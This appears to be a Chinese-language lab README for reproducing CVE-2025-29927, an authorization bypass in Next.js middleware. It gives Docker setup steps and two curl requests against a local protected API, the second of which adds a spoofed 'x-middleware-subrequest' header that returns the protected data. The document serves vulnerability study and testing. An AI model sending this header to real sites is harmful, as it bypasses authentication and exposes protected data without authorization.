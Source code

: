 # Next.js 中间件授权绕过漏洞 (CVE-2025-29927)

Next.js是一个基于React的Web应用框架。它提供了服务器端渲染、静态网站生成、路由系统和API路由等功能。当Nextjs被配置为使用中间件进行身份验证时，攻击者可以利用漏洞绕过身份验证。

## 启动环境

执行如下命令, 而后访问`http://ip:3000`即可

```
docker compose up --build
```

### 手动运行

运行如下命令

```bash
npm install
```

启动应用

```bash
npm run build
npm start
```

访问 http://ip:3000

## 复现漏洞

直接访问受保护接口：

```
curl -i  http://localhost:3000/api/protected/data
HTTP/1.1 307 Temporary Redirect
location: /unauthorized
Date: Sat, 22 Mar 2025 19:39:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

/unauthorized#
```

运行如下命令即可复现。

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/protected/data
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "8s59pt2il13l"
Content-Length: 175
Vary: Accept-Encoding
Date: Sat, 22 Mar 2025 19:41:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"成功获取敏感数据","sensitiveData":"这是一些应该受到保护的敏感数据","userId":12345,"adminAccess":true,"timestamp":"2025-03-22T19:41:09.957Z"}#
```
